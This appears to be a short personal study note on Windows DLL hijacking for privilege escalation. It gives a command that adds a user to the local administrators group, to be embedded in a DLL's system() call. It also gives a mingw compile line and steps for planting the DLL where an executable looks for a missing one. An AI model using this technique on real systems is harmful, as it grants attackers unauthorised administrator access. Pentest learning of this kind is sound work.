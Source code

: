 ```yaml
---
title: DLL Hijacking
updated: 2023-10-10 11:28:14Z
created: 2023-10-03 02:12:32Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# DLL Hijacking

Pre-requisite:  
Open **windows\_dll.c** and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators <user> /add`  
Compile to **file.dll**:  
`x86_64-w64-mingw32-gcc windows_dll.c -shared -o file.dll`

1. Check for any executables that are looking for a DLL file that is not found, AND you have write permissions to the location 

![ee51383be8c91193c9a9c0038d6251ce.png](../../_resources/ee51383be8c91193c9a9c0038d6251ce.png)

2. Place **file.dll** into location with the filename that the executable is looking for